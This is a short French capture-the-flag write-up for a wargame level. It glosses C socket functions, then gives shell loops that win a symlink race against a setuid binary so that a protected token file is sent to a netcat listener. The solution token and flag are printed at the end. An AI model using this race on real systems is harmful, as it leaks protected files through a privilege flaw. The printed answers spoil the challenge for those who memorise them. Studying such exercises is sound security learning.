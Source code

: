 # Level 10

## Recherche
---
socket : Socket programming is a way of connecting two nodes on a network to communicate with each other. One socket(node) listens on a particular port at an IP, while the other socket reaches out to the other to form a connection. The server forms the listener socket while the client reaches out to the server.

fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.

exit : exit() terminates the calling process without executing the rest code which is after the exit() function. 

htons : The htons function converts a u_short from host to TCP/IP network byte order (which is big-endian).

connect : The connect() function establishes the connection of a socket between a client and a server.

puts : used to write a line or string to the output( stdout ) stream. It prints the passed string with a newline and returns an integer value. The return value depends on the success of the writing procedure.

-------------------------------------------------

dans un terminal avec ssh ouvert sur la vm creer ce script dolink
il va supprimer si ca existe et recreer un lien symbolique entre token et tmpflag10

while true; do rm -rf /tmp/flag10; touch /tmp/flag10; rm -rf /tmp/flag10; ln -s ~/token /tmp/flag10; done

dans un autre terminal avec ssh ouvert sur la vm creer ce script uselink
il va forcer la connexion pour qu'il y en ait une qui passe entre le moment ou ca check le fichier et le moment ou ca check la connexion

while true; do ~/level10 /tmp/flag10 192.168.56.(101); done

la ligne qui suit, a effectuer dans 1 3eme terminal, permet de lire la sortie d'avant, et donc recuperer le flag, pour avoir le getflag
nc -kl 6969

code : woupa2yuojeeaaed06riuj63c

---
## Flag : feulo4b72j7edeahuete3no7c
---
## Sitographie

